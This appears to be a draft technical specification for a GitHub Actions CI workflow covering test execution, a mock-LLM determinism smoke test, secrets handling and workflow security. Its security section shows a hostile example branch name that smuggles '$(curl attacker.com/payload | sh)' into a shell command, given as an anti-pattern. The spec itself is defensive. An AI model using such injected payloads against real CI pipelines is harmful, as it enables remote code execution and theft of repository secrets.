



# DRE CI/CD Workflow — Technical Specification

**Version**: 1.0
**Status**: Draft
**Related Issues**: #127 (CI/CD Workflow), Part of #28
**Blocked by**: #122 (DRE Configuration)
**Related Specs**:
- `specs/dre-spec.md` — DRE logical architecture (Stages 1–5, CommitteeConfig)
- `specs/deterministic-reasoning-engine.md` — DRE Python data models (DeterminismParams, ConsensusClassification)
- `specs/dre-config-spec.md` — DRE environment configuration (startup validation, secrets)
- `docs/06-security-model.md` — Key management, secrets, supply chain
- `CONSTITUTION.md §3` — Auditability requirement

<!-- Addresses EDGE-CI-001 through EDGE-CI-070 (issue #127) -->

---

## Overview

This specification defines the **GitHub Actions CI/CD workflow** for the Deterministic Reasoning
Engine (DRE). It governs trigger conditions, test execution, the determinism smoke-test protocol,
secrets management, time budgets, security constraints, and compliance requirements for the DRE
CI pipeline.



---

## §1 — Workflow Trigger Definition

<!-- Addresses EDGE-CI-001, EDGE-CI-002, EDGE-CI-004, EDGE-CI-006, EDGE-CI-007, EDGE-CI-008 -->

### §1.1 Trigger Events

The DRE CI/CD workflow MUST trigger on the following GitHub Actions events:

```yaml
on:
  push:
    branches:
      - 'feature/**'
      - 'feat/**'
      - 'fix/**'
      - 'chore/**'
      - 'refactor/**'
  pull_request:
    branches:
      - main
    types: [opened, synchronize, reopened]
```

**Rules:**

| Rule | Rationale |
|------|-----------|
| Push to `main` does **not** trigger CI | `main` is protected; merges only arrive via reviewed PRs | <!-- Addresses EDGE-CI-001 -->
| Draft PRs are **excluded** | Add `types: [opened, synchronize, reopened]` (not `draft`); draft PRs with `ready_for_review` event may be added optionally | <!-- Addresses EDGE-CI-002 -->
| PRs targeting non-`main` branches are **excluded** | Only `pull_request: branches: [main]` | <!-- Addresses EDGE-CI-006 -->
| Concurrent pushes to the same branch use a concurrency group | See §1.2 | <!-- Addresses EDGE-CI-004 -->
| `workflow_dispatch` manual trigger **is allowed** | Determinism smoke test MUST always run regardless of trigger type | <!-- Addresses EDGE-CI-067 -->

### §1.2 Concurrency Policy

<!-- Addresses EDGE-CI-004, EDGE-CI-007 -->

To prevent duplicate runs from simultaneous pushes to the same branch, the workflow MUST
declare a concurrency group:

```yaml
concurrency:
  group: dre-ci-${{ github.ref }}
  cancel-in-progress: true
```

**Rule**: `cancel-in-progress: true` cancels older in-progress runs for the same branch when a
newer push arrives. This prevents resource waste and race conditions between runs on the same ref.

> **Exception**: The `main` branch workflow (if any) should use `cancel-in-progress: false` to
> prevent cancelling a release workflow in progress. Since this workflow does not trigger on
> `main` pushes (§1.1), this exception does not apply here.

### §1.3 Branch Name Safety

<!-- Addresses EDGE-CI-003 -->

GitHub Actions evaluates `${{ github.ref }}` expressions in a sandboxed context — branch names
are not executed as shell commands. The concurrency group `dre-ci-${{ github.ref }}` is safe
because:

1. GitHub Actions expressions (` ${{ }} `) are evaluated before shell execution.
2. Branch names containing special characters are URL-encoded by the GitHub Actions runtime.
3. Shell steps that use branch names MUST use `${{ github.head_ref }}` inside `${{ }}` — never
   via `$BRANCH_NAME` interpolated into a shell command without quoting.

**Rule**: Any workflow step that passes a branch name to a shell command MUST quote it:
```yaml
- run: echo "Branch is ${{ github.head_ref }}"
  # Safe: expression evaluated by Actions before shell
```
Never:
```yaml
- run: |
    BRANCH=${{ github.head_ref }}
    echo "Branch: $BRANCH"
  # UNSAFE: if branch name contains $() or backticks, this executes them
```
The correct pattern is to use `env:` to pass the value:
```yaml
- name: Use branch name safely
  env:
    BRANCH_NAME: ${{ github.head_ref }}
  run: echo "Branch: $BRANCH_NAME"
  # Safe: env var is never shell-interpolated inside ${{ }}
```
<!-- Addresses EDGE-CI-052, EDGE-CI-054 -->

---

## §2 — Environment Setup

<!-- Addresses EDGE-CI-013, EDGE-CI-015, EDGE-CI-016, EDGE-CI-049, EDGE-CI-064 -->

### §2.1 Python Version Requirement

<!-- Addresses EDGE-CI-013 -->

The DRE requires **Python 3.11 or higher** (see `specs/deterministic-reasoning-engine.md`
§Overview and `specs/dre-config-spec.md` §Overview). The CI workflow MUST pin the Python version:

```yaml
- name: Set up Python
  uses: actions/setup-python@v5
  with:
    python-version: '3.11'
```

**Rule**: The Python version MUST be pinned to a specific minor version (e.g., `'3.11'`), not
a floating alias like `'3.x'` or `'latest'`. This ensures consistent test behavior across runs.

### §2.2 Dependency Installation

<!-- Addresses EDGE-CI-015, EDGE-CI-016, EDGE-CI-049 -->

All Python dependencies MUST be installed before tests run:

```yaml
- name: Install dependencies
  run: |
    python -m pip install --upgrade pip
    pip install -r requirements.txt
```

**Required `requirements.txt` entries** for CI to function:

| Package | Purpose |
|---------|---------|
| `pytest` | Test runner |
| `pytest-timeout` | Per-test timeout enforcement (§3.3) |
| `python-dotenv` | `.env` file loading (per `dre-config-spec.md §4`) |
| `pyyaml` | YAML config parsing (per `dre-config-spec.md §5`) |

**Dependency caching**: To stay within the 10-minute CI budget (§6), the workflow SHOULD cache
pip dependencies using `actions/cache`:

```yaml
- name: Cache pip dependencies
  uses: actions/cache@v4
  with:
    path: ~/.cache/pip
    key: ${{ runner.os }}-pip-${{ hashFiles('requirements.txt') }}
    restore-keys: |
      ${{ runner.os }}-pip-
```

**Failure handling**: If `pip install` fails (network error, missing package), the workflow
exits with non-zero code and CI fails. This is the correct behavior.
<!-- Addresses EDGE-CI-016 -->

### §2.3 Environment Variable Injection

<!-- Addresses EDGE-CI-064 -->

The CI workflow MUST set the following environment variables before any DRE steps:

```yaml
env:
  DRE_ENVIRONMENT: dev
```

**Rules:**

| Variable | Value in CI | Notes |
|----------|-------------|-------|
| `DRE_ENVIRONMENT` | `dev` | Per `dre-config-spec.md §1`: CI uses `dev` config |
| `DRE_DEV_ANTHROPIC_API_KEY` | `${{ secrets.DRE_DEV_ANTHROPIC_API_KEY }}` | Never hardcoded |
| `DRE_DEV_OPENAI_API_KEY` | `${{ secrets.DRE_DEV_OPENAI_API_KEY }}` | Never hardcoded |
| `DRE_DEV_MISTRAL_API_KEY` | `${{ secrets.DRE_DEV_MISTRAL_API_KEY }}` | Never hardcoded |

> **Note on `DRE_ENVIRONMENT=dev`**: Setting this explicitly prevents ambiguity when the
> DRE config loader tries to detect the environment. Without it, behavior depends on the
> implementation's default — which may differ from `dev`.
<!-- Addresses EDGE-CI-064 -->

---

## §3 — Test Execution Protocol

<!-- Addresses EDGE-CI-009, EDGE-CI-010, EDGE-CI-011, EDGE-CI-012, EDGE-CI-014,
     EDGE-CI-017, EDGE-CI-018 -->

### §3.1 pytest Invocation

<!-- Addresses EDGE-CI-009, EDGE-CI-010 -->

The CI workflow MUST run `pytest` with the following flags:

```bash
python -m pytest tests/ -v --tb=short --timeout=120 --strict-markers -x
```

| Flag | Purpose |
|------|---------|
| `tests/` | Explicit test directory (no accidental collection of non-test files) |
| `-v` | Verbose output for debugging |
| `--tb=short` | Truncated tracebacks (reduces log size while retaining key info) |
| `--timeout=120` | Per-test 120-second timeout (requires `pytest-timeout`); see §3.3 |
| `--strict-markers` | Fail on unknown markers (prevents silently skipping tests) |
| `-x` | Stop at first failure (fail-fast; prevents wasted CI time on cascading failures) |

> **Rule**: The workflow step MUST use `python -m pytest` (not bare `pytest`) to ensure the
> correct Python environment's pytest is used.

### §3.2 Exit Code Handling

<!-- Addresses EDGE-CI-009, EDGE-CI-010 -->

pytest exit codes and the required CI behavior:

| Exit Code | Meaning | CI Action |
|-----------|---------|-----------|
| `0` | All tests passed | Continue to smoke test |
| `1` | Tests were run and at least one failed | **Fail CI immediately** |
| `2` | Test execution was interrupted (e.g., collection error, import failure) | **Fail CI immediately** |
| `3` | Internal error | **Fail CI immediately** |
| `4` | Command-line usage error | **Fail CI immediately** |
| `5` | No tests collected | **Fail CI immediately** — zero tests collected is a configuration error, not a success |

> **Critical Rule**: An exit code of `5` (no tests collected) MUST be treated as a CI failure.
> This prevents the CI from silently passing when the test directory is misconfigured or the
> `tests/` path is wrong.
<!-- Addresses EDGE-CI-009 -->

To enforce this:
```yaml
- name: Run tests
  run: |
    python -m pytest tests/ -v --tb=short --timeout=120 --strict-markers -x
    if [ $? -eq 5 ]; then
      echo "ERROR: No tests were collected. CI requires a non-empty test suite."
      exit 1
    fi
```

Or equivalently, configure `pytest.ini` / `pyproject.toml`:
```ini
[pytest]
# Fail if fewer than 1 test is collected
minversion = 7.0
```

### §3.3 Per-Test Timeout

<!-- Addresses EDGE-CI-011 -->

Each individual test is limited to **120 seconds** (2 minutes). This is enforced via the
`pytest-timeout` plugin (`--timeout=120`). A test that hangs indefinitely (e.g., waiting for
an LLM API response that never arrives) will be terminated and marked as FAILED.

**Rationale**: The total CI time budget is 10 minutes (§6). Individual tests consuming the
entire budget violates the workflow completion requirement.

### §3.4 Test Output Artifacts

<!-- Addresses EDGE-CI-014 -->

The workflow SHOULD save test results as artifacts for post-failure debugging:

```yaml
- name: Run tests
  run: python -m pytest tests/ -v --tb=short --timeout=120 --strict-markers -x \
       --junitxml=test-results.xml

- name: Upload test results
  if: always()
  uses: actions/upload-artifact@v4
  with:
    name: test-results
    path: test-results.xml
    retention-days: 30
```

**Security rule**: The JUnit XML artifact MUST NOT contain API key values. Since tests use
mocked LLM calls (see §4.2), no real API key values appear in test output.

### §3.5 Test Parallelism

<!-- Addresses EDGE-CI-012 -->

The CI workflow MUST NOT use `pytest-xdist` parallel test execution by default. Reasons:

1. The `tests/test_deterministic.py` suite tests deterministic hash outputs; parallel
   execution can introduce ordering-dependent failures.
2. Parallel execution does not reduce wall-clock time proportionally when LLM mock calls
   are involved (shared mock state).

If parallelism is added in a future iteration, it requires a dedicated parallel-safe test
configuration and must be gated behind a spec update.

---

## §4 — Determinism Smoke-Test Protocol

<!-- Addresses EDGE-CI-019, EDGE-CI-020, EDGE-CI-021, EDGE-CI-022, EDGE-CI-023, EDGE-CI-024,
     EDGE-CI-025, EDGE-CI-028, EDGE-CI-029, EDGE-CI-031, EDGE-CI-033, EDGE-CI-034 -->

### §4.1 Purpose

The determinism smoke test verifies the core DRE invariant: **given the same canonical prompt
and deterministic parameters, any two independent executions produce the same `response_hash`**.
This validates that the DRE's hashing pipeline, normalization, and consensus computation are
reproducible.

### §4.2 Mock LLMs Required in CI

<!-- Addresses EDGE-CI-021, EDGE-CI-022, EDGE-CI-025, EDGE-CI-029, EDGE-CI-031, EDGE-CI-034 -->

The smoke test in CI MUST use **mock LLM responses** rather than real API calls for the following
reasons:

| Problem with Real LLM Calls | Resolution |
|-----------------------------|------------|
| Rate limiting on second call produces different result | Use mocks: always returns same output |
| Provider API downtime fails smoke test for non-DRE reason | Mocks are always available |
| 3 real models × 60s max = 3 min; pushes past 10-min budget | Mocks are near-instant |
| Non-determinism: even at `temp=0`, providers may update model internals | Mocks return pinned output |
| Models that don't support `seed` parameter | Mocks always support `seed` |

> **Rule**: The CI smoke test uses mocked LLM responses. The **real multi-model validation**
> (with live API calls) is performed in **integration tests** (`tests/test_pipeline.py`)
> which are tagged `@pytest.mark.integration` and are **excluded from standard CI** by default.
<!-- Addresses EDGE-CI-025 -->

Integration tests are opt-in:
```bash
# Run only integration tests (requires real API keys):
python -m pytest tests/ -v -m integration
# Standard CI (excludes integration tests):
python -m pytest tests/ -v -m "not integration"
```

### §4.3 Canonical Smoke Test Prompt

<!-- Addresses EDGE-CI-019 -->

The canonical smoke test prompt is a fixed, version-controlled string defined in
`tests/fixtures/smoke_test_prompt.txt`. The prompt content is:

```
Evaluate the following deployment for production readiness:
- Artifact: sha256:abc123def456789012345678901234567890123456789012345678901234
- Test coverage: 92%
- Critical CVEs: 0
- Environment: staging
- Policy: require_test_coverage_min=90

Provide a structured deployment recommendation.
```

**Rules:**

1. The smoke test prompt MUST be read from `tests/fixtures/smoke_test_prompt.txt` — not
   hardcoded in the workflow or test file.
2. Changes to the smoke test prompt MUST update the prompt file via a reviewed PR.
3. The prompt MUST NOT contain any secrets, API keys, or environment-specific values.
4. The prompt MUST be valid UTF-8 and ≤ 32,768 bytes (per `deterministic-reasoning-engine.md §3.2`).
5. The prompt MUST be stable across runs — no dynamic content (no timestamps, no random values).
<!-- Addresses EDGE-CI-019 -->

### §4.4 What "Identical Proof Hashes" Means

<!-- Addresses EDGE-CI-020, EDGE-CI-024 -->

The smoke test asserts that two runs of the same canonical prompt produce **identical
`response_hash`** values in the `DeterministicProof`. Specifically:

| Field | Same across runs? | Reason |
|-------|-------------------|--------|
| `prompt_hash` | ✅ Must be identical | SHA-256 of same canonical prompt bytes |
| `response_hash` | ✅ Must be identical | SHA-256 of mock majority `normalized_output` |
| `consensus_ratio` | ✅ Must be identical | Same agreements/total (mock always returns same output) |
| `classification` | ✅ Must be identical | Derived deterministically from `consensus_ratio` |
| `proof_id` | ❌ Will differ (by design) | UUID v4 is unique per proof (§6.1 of `deterministic-reasoning-engine.md`) |
| `created_at` | ❌ Will differ (by design) | Timestamp of proof creation |

> **Critical Rule**: The smoke test compares `response_hash` and `prompt_hash` only.
> It MUST NOT compare `proof_id` or `created_at` — these are intentionally unique per run.
<!-- Addresses EDGE-CI-020, EDGE-CI-024 -->

```python
# Canonical smoke test assertion
def test_determinism_smoke():
    prompt_text = Path("tests/fixtures/smoke_test_prompt.txt").read_text(encoding="utf-8")
    
    # Run 1
    proof1 = run_dre_with_mock_llms(prompt_text)
    
    # Run 2 (same prompt, same params)
    proof2 = run_dre_with_mock_llms(prompt_text)
    
    # Assert deterministic fields match
    assert proof1.prompt_hash == proof2.prompt_hash, \
        "prompt_hash must be identical across runs"
    assert proof1.response_hash == proof2.response_hash, \
        "response_hash must be identical across runs"
    assert proof1.consensus_ratio == proof2.consensus_ratio, \
        "consensus_ratio must be identical across runs"
    assert proof1.classification == proof2.classification, \
        "classification must be identical across runs"
    
    # Assert non-deterministic fields differ (sanity check)
    assert proof1.proof_id != proof2.proof_id, \
        "proof_id must be unique per run (UUID v4)"
```

### §4.5 Mock LLM Response Fixture

<!-- Addresses EDGE-CI-033 -->

The mock LLM responses MUST be pinned in `tests/fixtures/mock_responses.json`. The mock
always returns the same `normalized_output` for the canonical prompt, ensuring:

1. `response_hash = SHA-256(mock_normalized_output.encode("utf-8"))` is constant.
2. All 3 mock models return the same output → `consensus_ratio = 1.0` → `STRONG`.
3. `agreements = 3`, `total = 3`.

When a committee member times out in a real run (at temp=0), the committee hash changes because
`total` remains 3 but `agreements` may drop. The mock always simulates all 3 models responding
to prevent this confound.
<!-- Addresses EDGE-CI-033 -->

### §4.6 Smoke Test Isolation

<!-- Addresses EDGE-CI-028 -->

Each smoke test run MUST be isolated:

1. No shared in-memory state between the two runs.
2. Each run creates a new `DRE` instance from scratch.
3. No filesystem writes from run 1 are read by run 2.
4. The two runs execute sequentially (not in parallel threads).

**Rule**: The smoke test MUST NOT use module-level singletons or class-level fixtures that
persist state between the two `run_dre_with_mock_llms()` calls.
<!-- Addresses EDGE-CI-028 -->

### §4.7 Smoke Test in CI vs Integration Tests

<!-- Addresses EDGE-CI-031 -->

There is a deliberate distinction between the CI smoke test and the full multi-model requirement:

| | CI Smoke Test | Integration Test |
|--|---------------|-----------------|
| **Models** | 3 mock models (simulated) | 3 real models (min, per §4 of `dre-spec.md`) |
| **API calls** | None | Real LLM API calls |
| **Purpose** | Verify hash pipeline and normalization | Verify real model determinism |
| **Run condition** | Every push / PR | Optional (`-m integration`) |
| **Time budget** | < 5 seconds | Up to 10 minutes |

The CI smoke test with mock LLMs satisfies the acceptance criterion "runs the same canonical
prompt twice and asserts identical proof hashes" — because it is the hash pipeline determinism
that is being tested, not the LLM provider's inherent non-determinism (which is addressed by
the `temp=0, seed=K, top_p=1.0` spec in `dre-config-spec.md`).
<!-- Addresses EDGE-CI-031 -->

---

## §5 — Secrets Management in CI

<!-- Addresses EDGE-CI-035, EDGE-CI-036, EDGE-CI-038, EDGE-CI-039, EDGE-CI-041, EDGE-CI-042,
     EDGE-CI-043, EDGE-CI-066 -->

### §5.1 Secret Injection via GitHub Secrets

<!-- Addresses EDGE-CI-035, EDGE-CI-036, EDGE-CI-043 -->

All LLM API keys MUST be injected via GitHub Actions Secrets:

```yaml
env:
  DRE_DEV_ANTHROPIC_API_KEY: ${{ secrets.DRE_DEV_ANTHROPIC_API_KEY }}
  DRE_DEV_OPENAI_API_KEY:    ${{ secrets.DRE_DEV_OPENAI_API_KEY }}
  DRE_DEV_MISTRAL_API_KEY:   ${{ secrets.DRE_DEV_MISTRAL_API_KEY }}
```

**Rules:**

1. Secrets MUST be referenced via `${{ secrets.NAME }}` — never as plain `env:` values.
2. Secrets MUST NEVER appear in `run:` commands as literals.
3. GitHub Actions automatically masks secret values in logs — any accidental `echo $SECRET`
   will be replaced with `***`.
4. The `--capture=fd` pytest flag (default) captures stderr/stdout of test code, preventing
   API key values from appearing in CI log output even if a test inadvertently prints them.
<!-- Addresses EDGE-CI-035, EDGE-CI-043 -->

> **Warning on base64 encoding**: GitHub's automatic masking covers the raw secret value.
> If a secret is base64-encoded before printing, the encoded form is NOT automatically masked.
> The DRE config loader (§3.4 of `dre-config-spec.md`) detects and rejects base64-encoded
> values in config files, but CI log sanitization is the responsibility of the CI workflow.
> **Rule**: Steps that could print environment variables (e.g., `env`, `printenv`) MUST NOT
> run in CI workflows.
<!-- Addresses EDGE-CI-042 -->

### §5.2 Fork Pull Request Isolation

<!-- Addresses EDGE-CI-005, EDGE-CI-038, EDGE-CI-039 -->

**Critical security rule**: GitHub Actions `pull_request` events from **forked repositories**
do NOT have access to GitHub Secrets by default. This is the correct behavior and MUST NOT
be bypassed.



**Rules:**

1. The workflow MUST use `pull_request` (not `pull_request_target`) to prevent fork PRs
   from accessing secrets. `pull_request_target` runs in the context of the base repository
   and CAN access secrets — using it for untrusted fork code is a critical security vulnerability.
2. When a fork PR triggers the workflow, the smoke test MUST be skipped gracefully (not failed)
   if API keys are absent. The workflow checks for this condition:

```yaml
- name: Run determinism smoke test
  if: |
    env.DRE_DEV_ANTHROPIC_API_KEY != '' ||
    github.event.pull_request.head.repo.fork == false
  run: python -m pytest tests/ -v -m smoke_test
```

3. The `CODEOWNERS` file MUST require maintainer approval before CI runs for fork PRs
   (GitHub setting: "Require approval for all outside collaborators").
4. **Never use `pull_request_target`** unless the workflow code itself (not the PR code) runs
   the trusted operations. If `pull_request_target` is ever needed, it MUST be reviewed by a
   security-aware maintainer and documented in `docs/06-security-model.md`.
<!-- Addresses EDGE-CI-005, EDGE-CI-038, EDGE-CI-039 -->

### §5.3 Secret Rotation During CI

<!-- Addresses EDGE-CI-041 -->

If a secret is rotated while a CI run is in progress:

1. The in-flight CI run continues using the old key value (already injected into the runner's
   environment at job start).
2. The second smoke test run (if using real API calls) may fail if the old key is revoked before
   it completes.
3. **Rule**: Secret rotation MUST be coordinated to occur outside of active CI windows.
   If a key is revoked immediately (e.g., incident response), the in-flight CI run is expected
   to fail — this is acceptable.
<!-- Addresses EDGE-CI-041 -->

### §5.4 Artifact Secret Scanning

<!-- Addresses EDGE-CI-039 -->

Test artifacts (JUnit XML, log files) uploaded by the workflow MUST NOT contain raw API key
values. This is enforced by:

1. Mocked LLM calls in CI (§4.2) — no real API keys are ever passed to LLM provider SDKs.
2. The `--capture=fd` pytest default captures test output — pytest assertions do not print env vars.
3. The DRE config loader (`dre-config-spec.md §3.4`) rejects hardcoded secrets in config files,
   preventing keys from appearing in config-related test output.

**Rule**: Integration tests (which use real API keys) MUST NOT upload artifacts that contain
raw API responses — these may contain provider-specific data that includes key metadata.
<!-- Addresses EDGE-CI-039 -->

### §5.5 Secret Unavailability Handling

<!-- Addresses EDGE-CI-066 -->

If GitHub's Secrets API is temporarily unavailable during job startup, the workflow fails at
the environment setup step (secrets come back as empty strings). This causes the DRE config
loader to raise `DREConfigError: API_KEY_MISSING` (per `dre-config-spec.md §3.4`), failing
the CI run with a clear error message.

**Rule**: CI failures due to secret unavailability are non-retried automatically. The CI run
is simply re-triggered manually or by the next push once the Secrets API recovers.

---

## §6 — CI Time Budget

<!-- Addresses EDGE-CI-045, EDGE-CI-046, EDGE-CI-047, EDGE-CI-048, EDGE-CI-049, EDGE-CI-050, EDGE-CI-051 -->

### §6.1 10-Minute Budget Allocation

<!-- Addresses EDGE-CI-045 -->

The acceptance criterion requires the workflow to complete in **under 10 minutes**. The time
budget is allocated as follows:



| Phase | Budget | Notes |
|-------|--------|-------|
| Checkout + Python setup | 30 s | `actions/setup-python@v5` is fast |
| pip install (warm cache) | 60 s | Cold install can take 3–5 min; see §2.2 caching |
| DRE config validation | 10 s | Startup validation per `dre-config-spec.md §8` |
| pytest test suite | 4 min 30 s | Full `tests/` suite; per-test timeout: 120s |
| Determinism smoke test | 30 s | Mocked LLMs are near-instant; 30s is conservative |
| Upload artifacts | 30 s | JUnit XML upload |
| **Buffer** | **2 min 50 s** | Absorbs runner cold-start, GitHub API latency |

> **Rule**: If the full test suite exceeds 4 minutes 30 seconds on a standard `ubuntu-latest`
> runner, the test suite MUST be profiled and slow tests either optimized or moved to
> a separate `@pytest.mark.slow` category that runs on a non-blocking schedule.
<!-- Addresses EDGE-CI-048 -->

### §6.2 Cold Start Mitigation

<!-- Addresses EDGE-CI-047, EDGE-CI-049 -->

1. **Dependency caching** (§2.2) reduces pip install from 3–5 min to ~15 seconds on cache hit.
2. **Mock LLMs** (§4.2) eliminate real API call latency from the smoke test entirely.
3. **Per-test timeout** (§3.3) prevents any single test from consuming the entire budget.
4. **`-x` fail-fast** (§3.1) stops the test run at first failure — does not run all 70+ tests
   after the first failure is found.

### §6.3 Real LLM Call Timeout

<!-- Addresses EDGE-CI-050 -->

If integration tests (with real LLM calls) are ever run in CI, the DRE `CommitteeConfig.timeout_ms`
(60,000 ms per `dre-spec.md §Committee Configuration`) provides per-member timeout. Additionally,
the GitHub Actions job-level timeout MUST be set:

```yaml
jobs:
  ci:
    timeout-minutes: 10
```

This ensures the entire job is cancelled after 10 minutes regardless of what is hanging.
<!-- Addresses EDGE-CI-050 -->

### §6.4 Async Committee Execution

<!-- Addresses EDGE-CI-051 -->

The DRE smoke test MUST use async (concurrent) committee execution when testing with multiple
mock models. Sequential execution would multiply per-model latency:

- Sequential: 3 models × 100ms = 300ms
- Async (parallel): max(100ms, 100ms, 100ms) = ~100ms

Per `deterministic-reasoning-engine.md §9` (Flow Diagram), the DRE queries N models
concurrently via `asyncio`. The smoke test MUST not serialize LLM calls unless explicitly
testing single-model behavior.
<!-- Addresses EDGE-CI-051 -->

---

## §7 — Security Constraints for the Workflow

<!-- Addresses EDGE-CI-052, EDGE-CI-053, EDGE-CI-054, EDGE-CI-055, EDGE-CI-056, EDGE-CI-057, EDGE-CI-058 -->

### §7.1 Workflow YAML Injection Prevention

<!-- Addresses EDGE-CI-052, EDGE-CI-054 -->

GitHub Actions YAML injection occurs when user-controlled values (branch names, PR titles,
commit messages) are interpolated directly into `run:` shell commands via `${{ }}`.

**MUST NOT do:**
```yaml
- run: git checkout ${{ github.head_ref }}
# If branch is: "main$(curl attacker.com/payload | sh)" → executes attacker's payload
```

**MUST do:**
```yaml
- name: Checkout branch safely
  env:
    HEAD_REF: ${{ github.head_ref }}
  run: git checkout "$HEAD_REF"
# env: variables are passed as-is, not shell-interpolated
```

**Rule**: All GitHub context values (`github.head_ref`, `github.event.issue.body`,
`github.event.pull_request.title`, `github.event.commits[*].message`) MUST be passed
to shell commands via `env:` — never inline via `${{ }}` inside `run:` blocks.
<!-- Addresses EDGE-CI-052, EDGE-CI-054 -->

### §7.2 Prompt Injection via PR Description

<!-- Addresses EDGE-CI-053 -->

The CI workflow MUST NOT pass PR description text, commit message text, or issue body text
as content to the DRE smoke test prompt. The smoke test uses a fixed canonical prompt from
`tests/fixtures/smoke_test_prompt.txt` (§4.3). User-controlled content from GitHub events
MUST NEVER reach an LLM call in CI.

If the workflow ever needs to process PR content with an LLM, it MUST use the AVM layer's
prompt injection mitigations (`specs/avm-spec.md §Prompt Injection Mitigations`) and the
DRE canonical prompt construction pipeline — never raw user text.
<!-- Addresses EDGE-CI-053 -->

### §7.3 Dependency Integrity

<!-- Addresses EDGE-CI-055, EDGE-CI-056 -->

To prevent dependency confusion attacks (attacker registers `dre` on PyPI):

1. Internal packages MUST use namespace packages (`maatproof-dre`, `maatproof-*`) rather than
   short names that could be squatted.
2. Production `requirements.txt` MUST pin exact versions with hashes:
   ```
   pytest==8.3.2 \
     --hash=sha256:...
   ```
3. The CI workflow MUST verify SBOM integrity before running tests:
   ```yaml
   - name: Verify SBOM
     run: pip-audit --require-hashes -r requirements.txt
   ```
4. Supply chain security is governed by `docs/06-security-model.md §Supply Chain Security`
   (Sigstore/Cosign, in-toto, SLSA Level 2+).
<!-- Addresses EDGE-CI-055, EDGE-CI-056 -->

### §7.4 Workflow File Integrity

<!-- Addresses EDGE-CI-057 -->

The GitHub Actions workflow file (`.github/workflows/dre-ci.yml`) MUST be protected by:

1. **Branch protection rules on `main`**: Require PR review before merge; no direct push to `main`.
